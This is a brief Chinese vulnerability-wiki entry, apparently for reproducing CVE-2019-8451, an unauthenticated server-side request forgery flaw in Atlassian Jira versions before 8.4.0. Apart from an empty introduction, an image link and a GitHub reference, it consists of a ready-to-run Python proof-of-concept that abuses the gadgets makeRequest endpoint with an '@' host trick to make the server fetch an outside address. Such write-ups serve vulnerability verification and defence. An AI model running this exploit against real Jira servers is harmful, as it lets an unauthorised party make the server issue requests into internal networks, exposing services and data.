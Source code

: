 （CVE-2019-8451）Atlassian Jira 未授权SSRF漏洞验证
==================================================

一、漏洞简介
------------

二、影响范围
------------

Atlassian Jira \< 8.4.0

三、复现过程
------------

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-8451)AtlassianJira未授权SSRF漏洞验证/media/rId24.png)

> https://github.com/ianxtianxt/CVE-2019-8451

    #coding:utf-8
    import requests

    host = 'http://xx.xx.xx.xx:8080'
    header = {
                            'X-Atlassian-Token': 'no-check',
                            'Connection': 'close'
                    }

    url = host + '/plugins/servlet/gadgets/makeRequest?url='+host+'@www.baidu.com/'
    html = requests.get(url = url,headers = header)
    print html.text
